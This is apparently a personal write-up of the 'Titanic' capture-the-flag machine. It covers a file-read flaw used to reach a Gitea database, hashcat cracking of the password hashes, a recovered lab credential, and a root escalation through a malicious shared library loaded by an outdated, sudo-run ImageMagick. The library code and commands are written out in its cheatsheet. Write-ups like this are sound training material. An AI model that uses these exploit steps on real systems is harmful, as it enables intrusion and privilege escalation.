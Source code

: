 # Titanic \[Linux Easy]

## Report

HTTP website posts a form and downloads a 'ticket' from local, vulnerable to LFI, find an exposed gitea directory with access to source mentioning path to find creds. Leverage this to find creds for user 'developer'

Looking around, see a script which uses binary 'ImageMagick' as sudo which uses an outdated version that is vulnerable to Arbritary Code Execution

{% embed url="https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8" %}

## Cheatsheet

```
#Final path for LFI, after reading documentation
/home/developer/gitea/data/gitea/gitea.db

hashcat64.exe -m 10900 hash.txt rockyou.txt -d 1

gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
attribute((constructor)) void init(){
system("sudo cat /root/root.txt");
exit(0);
}
EOF

magick /dev/null dev/null
```

## Proof

endpoint `/book` post form data
\
`/download` variable ticket modify this yea

v2 was forbidden                                   (Was there any point?)

`/home/developer/gitea/data:/data`  (From gitea dockerfile)

`data/gitea.db`                                       (From Google, db file path)

volumes:
\
`- ./gitea:/data`                                         (From gitea documentation, SQL Database setup)

Our dockerfile mentions one path and the sql dockerfile appends to it further

Hence final path: `/home/developer/gitea/data/gitea/gitea.db`



Convert gitea PBKDF2-HMAC-SHA256 password hashes to hashcat readable form

`developer:25282528`

<figure><img src="../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

<div align="left"><figure><img src="../../.gitbook/assets/image (82).png" alt="" width="563"><figcaption></figcaption></figure></div>

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

## In-Game Pitch Notes

Once you clock an LFI, you have to be thinking about exposing creds come on

Privesc Methodology

linpease
\
sudo -l
\
suid
\
crontab
\
no sus binaries with useless perms
\
no path exploit

opt was written in red lmao (readable by user but not world readable)

The convert command is deprecated in IMv7, use "magick" instead of "convert" or "magick convert"
